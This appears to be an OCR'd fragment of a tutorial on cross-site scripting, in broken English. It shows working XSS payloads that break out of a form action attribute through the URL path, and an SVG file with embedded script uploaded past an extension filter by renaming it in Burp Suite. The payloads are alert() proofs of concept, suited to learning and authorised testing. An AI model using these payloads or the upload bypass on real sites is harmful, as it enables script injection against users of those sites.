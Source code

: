 Here tyr to paylods and bypass f>     

Step 1. use simple paylods like <script>alert(1)</script> 

Input urls

      https://example.com//index.php/asif<script>alert</script> 

Output Source Code 

      <form action="/index.php/asif<script>alert</script>" method="POST">
      
Here Paylods Not executed bucause " colume is proble so try solve " colume sime use asif" like 

Input 
 
      https://example.com//index.php/asif"<script>alert</script> 
      
Output

      <form action="/index.php/asif"<script>alert</script>" method="POST">

Here Paylods Not executed bucause alert is not executed so try extra <> backslac

Input 

      https://example.com//index.php/asif"><script>alert(1)</script>< 

Output

      <form action="/index.php/asif"><script>alert(1)</script><" method="POST">

Boom Paylods is executed

7. You have a pic upload funtion so create a file exploit.svg like

       <?xml version="1.0" standalone="no"?>
       <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
       <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
       <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
       <script type="text/javascript">
       alert("xss");
       </script>
       </svg>

Uploda a file so server is error message show because .svg extention is not allow so use bur-suite and change exploit.svg extention and wrrite .png and sand server and boom server is accept a paylods and create a pop       
       
       
       
       
       
       
       
       
       

# LAB

## XSS 01
